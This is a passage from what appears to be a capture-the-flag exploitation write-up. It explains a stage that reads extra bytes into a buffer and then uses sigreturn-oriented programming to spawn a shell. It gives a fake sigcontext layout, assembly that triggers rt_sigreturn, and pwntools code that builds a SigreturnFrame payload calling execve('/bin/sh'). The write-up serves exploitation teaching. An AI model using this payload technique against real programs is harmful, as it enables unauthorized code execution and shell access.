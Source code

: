In a nutshell, this made:
- `rdi` is 0 (stdin).
- `rsi` contains the address to write into : `&buffer + 16`
- `rdx` has the number of bytes to read which is `0x140` here.

Thus, now we can extends our buffer without meaningful data.


## Stage 5: SIGROP

But, what data to read ?

Remember, we still have got to get a shell, and for that the only choice we have is **SIGROP**.
So, what's SIGROP ?

SIGROP is an exploitation technique that abuses Unix signal handling to achieve arbitrary register control. It consists of pushing the (future)values of all registers into the stack in a certain order, and after triggering the syscall, all the registers are update based on the values pushed into the stack.

### Attack Process:

Craft fake sigcontext structure:

```
Stack Layout:\
+------------------+\
| Fake sigcontext  |  ← Contains malicious register values\
| RAX = 0x3b       |    (execve syscall number)\
| RDI = "/bin/sh"  |    (program to execute)\
| RSI = NULL       |    (argv)\
| RDX = NULL       |    (envp)\
| RIP = syscall    |    (where to jump)\
+------------------+
```
Triggering it:
```
mov rax, 15    ; SYS_rt_sigreturn
syscall        ; Kernel restores our fake context
```

So, we have to read the new values we want for the registers, especially: **rax**, **rdi**, **rsi** and **rdx**.

```
frame = SigreturnFrame()
frame.rax = 59                      # syscall number for execve
frame.rdi = fake_rbp_1+296            # pointer to "/bin/sh"
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_addr            # address of `syscall` instruction
frame.rsp = fake_rbp_1         # stack after syscall (can be just garbage)


payload = p64(fake_rbp_1+40) + p64(set_rax) + p64(15) + p64(syscall_addr) + bytes(frame) + b"/bin/sh\x00"
```
